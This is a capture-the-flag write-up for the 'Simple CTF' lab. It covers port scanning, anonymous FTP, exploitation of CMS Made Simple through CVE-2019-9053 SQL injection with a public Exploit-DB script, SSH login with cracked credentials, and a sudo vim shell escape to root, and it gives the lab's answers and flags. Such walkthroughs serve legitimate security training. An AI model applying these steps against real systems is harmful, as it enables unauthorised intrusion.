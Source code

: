 # Simple CTF

## Useful tools and resources
- Nmap
- gobuster
- rockyou.txt
- [dirsearch](https://github.com/maurosoria/dirsearch)
- [100k Most used passwords](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt)

## Task 1: Simple CTF
### 1. How many services are running under port 1000?
```
2
```
First, we do an nmap scan to the machine, checking for all ports.\
__nmap output__:
```
> nmap -sT -p- 10.10.253.82
Nmap scan report for 10.10.253.82
Host is up (0.20s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```
We find ports 21 and 80, which are under 1000.

### 2. What is running in the higher port?
```
ssh
```
We now do an nmap scan to the highestt port, which is 2222.\
__nmap output__:
```
> nmap -sV -p 2222 10.10.253.82
Nmap scan report for 10.10.253.82
Host is up (0.20s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see that this port has __ssh__ as its service.

Another alternative for the nmap scan could be:
```bash
nmap -A -T4 -p- 10.10.x.x
```

### 3. What's the CVE you're using against the application?
```
CVE-2019-9053
```

### 4. To what kind of vulnerability is the application vulnerable?
```
SQLi
```

First, we are going to acces the ftp service through the user 'anonymous'. Inside the ftp we find a text file with important information. We get the file and transfer it to our computer so we can read it.
```bash
kali@kali:~$ ftp 10.10.253.82
Connected to 10.10.253.82.
220 (vsFTPd 3.0.3)
Name (10.10.253.82:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (2.6832 MB/s)
ftp> exit
kali@kali:~$ cat ForMitch.txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

We exit out of ftp and proceed to the main page in port 80 (http) which is Apache.\
Url: `10.10.219.145/index.html`

We are going to run a __gobuster__ scan to find useful directories.\
__gobuster output__
```bash
kali@kali:~$ gobuster dir -u 10.10.219.145 -w /usr/share/wordlists/dirb/common.txt -t 15 -x php,html,txt -q
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/.htpasswd.html       (Status: 403) [Size: 302]
/.hta.php             (Status: 403) [Size: 296]
/.htaccess.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/.hta.html            (Status: 403) [Size: 297]
/.htaccess.html       (Status: 403) [Size: 302]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess.txt        (Status: 403) [Size: 301]
/.hta.txt             (Status: 403) [Size: 296]
/.htpasswd.php        (Status: 403) [Size: 301]
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]  
/robots.txt           (Status: 200) [Size: 929]  
/server-status        (Status: 403) [Size: 301]  
/simple               (Status: 301) [Size: 315] [--> http://10.10.219.145/simple/]
```
When we inspect the __/simple__ directory, we find __CMS Made Simple__. The version can be found in the footer of the page.
If we search for this CVE: `CMS Made Simple 2.2.8 cve` we find a vulnerability to SQL Injection.

5. What's the password?
```
secret
```

6. Where can you login with the details obtained?
```
ssh
```

We then find the [Exploit Database](https://www.exploit-db.com/exploits/46635) entry with some python code.

__python command:__
```bash
python 46635.py -u http://10.10.116.229/simple --crack -w 100kcommon.txt
```
__output:__
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
We can use this credentials to login using ssh.
```bash
ssh mitch@10.10.116.229 -p 2222
```
When promped for the password, write: `secret`.

We are now logged in as mitch.

### 7. What's the user flag?
```
G00d j0b, keep up!
```
If we do `ls` once we are logged in, we can find a file called __user.txt__. If we cat it out we find the user flag.

### 8. Is there any other user in the home directory? What's its name?
```
sunbath
```
In our current folder, jump back a directory with `cd ..`. Now do an `ls` to see the contents of the home folder. 
We should see another user called __sunbath__.

### 9. What can you leverage to spawn a privileged shell?
```
vim
```
To see what our sudo privileges are, we can run `sudo -l`. After running it we can see that we have acces to vim, and we can exploit that to get root access.
If we search for vim in __GTFOBins__, and go to the sudo section we see a potential payload that we can use.

__payload:__
```bash
sudo vim -c ':!/bin/sh'
```
After running it, we should have root access.

### 10. What's the root flag?
```
W3ll d0n3. You made it!
```
If we change into the root folder with `cd /root` we can then run `ls -la` to see all the contents of the folder, where the root flag can be found.